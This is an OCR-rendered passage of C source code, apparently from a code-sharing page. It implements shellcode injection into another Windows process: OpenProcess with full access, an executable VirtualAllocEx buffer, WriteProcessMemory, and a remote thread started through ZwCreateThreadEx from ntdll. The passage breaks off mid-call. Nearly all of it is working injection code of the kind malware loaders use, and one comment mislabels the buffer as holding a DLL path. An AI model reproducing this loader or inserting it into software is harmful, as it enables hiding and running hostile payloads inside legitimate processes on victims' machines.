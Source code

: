 ```c

BOOL ZwCreateThreadExInjectShellcode(DWORD dwProcessId)
{
	HANDLE hProcess = NULL;
	LPVOID ShellcodeBuffer = NULL;
	FARPROC pFuncProcAddr = NULL;
	HANDLE hRemoteThread = NULL;
	DWORD dwStatus = 0;
	SIZE_T write_len = 0;

	// 打开进程
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (NULL == hProcess) {
		printf("Error OpenProcess:%d", GetLastError());
		return FALSE;
	}

	// 申请内存
	
	//在要被注入的进程中创建内存，用于存放注入dll的路径
	ShellcodeBuffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (ShellcodeBuffer == NULL)
	{
		puts("Buff alloc error");
		return 0;
	}

	// 写入数据

	WriteProcessMemory(hProcess, ShellcodeBuffer, shellcode, sizeof(shellcode), &write_len);
	if (sizeof(shellcode) != write_len)
	{
		puts("write error");
		return 0;
	}


	// 加载ntdll.dll
	HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	if (NULL == hNtdllDll) {
		printf("Error Load 'ntdll.dll':%d", GetLastError());
		return FALSE;
	}

	//加载ntdll.dll并从中获取内核函数ZwCreateThread，并使用函数指针指向此函数
	hNtdllDll = LoadLibrary("ntdll.dll");
	// 获取ZwCreateThreadEx函数地址
	typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx) {
		printf("Error GetProcAddress 'ZwCreateThreadEx':%d", GetLastError());
		return FALSE;
	}

	//执行ZwCreateThread函数，在指定进程中创建线程加载要被注入的dll
	dwStatus = ZwCreateThreadEx(
		&hRemoteThread,
		PROCESS_ALL_ACCESS,
		NULL,
		hProcess,
		(LPTHREAD_START_ROUTINE)ShellcodeBuffer,
		NULL,
```